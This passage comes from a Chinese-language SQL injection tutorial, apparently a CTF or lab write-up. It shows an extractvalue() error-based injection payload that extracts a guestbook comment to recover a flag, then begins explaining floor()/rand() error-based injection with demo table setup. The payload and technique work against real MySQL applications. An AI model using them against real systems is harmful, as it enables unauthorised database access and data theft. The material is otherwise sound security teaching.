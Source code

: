 ![image-20220501104911332](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501104911332.png)

```
1' and extractvalue(1,concat(0x7e,mid((select comment from guestbook),32,32)))#
```

![image-20220501104929359](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501104929359.png)

拼接得到完整的flag：PTB{594e18bb-3512-41f6-aaa5-950f032353cb}

![image-20220501105048169](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501105048169.png)



## （二）floor()函数报错注入

```
原理：利用select count(*),floor(rand(0)*2)x from information_schema.character_sets group by x;导致数据库报错，通过concat函数连接注入语句与floor(rand(0)*2)函数，实现将注入结果与报错信息回显的注入方式。
```

**函数理解：**

创建数据库

```
create database test1;
```

![image-20220501111401129](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501111401129.png)

创建数据表

```
use test1；
create table czs(id int unsigned not null primary key auto_increment, name varchar(15) not null);
insert into czs(id,name) values(1,'chenzishuo');
insert into czs(id,name) values(2,'zhangsan');
insert into czs(id,name) values(3,'lisi');
insert into czs(id,name) values(4,'wangwu');
```

![image-20220501111620924](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501111620924.png)



- rand()函数：rand()可以产生一个在0和1之间的随机数

![image-20220501111830837](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501111830837.png)

![image-20220501111908993](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501111908993.png)

直接使用rand()函数时，每次产生的数据都不一样，但当我们提供了一个固定的随机数的种子0之后，每次产生的值都是相同的，这也可以称之为伪随机：

![image-20220501112022630](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501112022630.png)


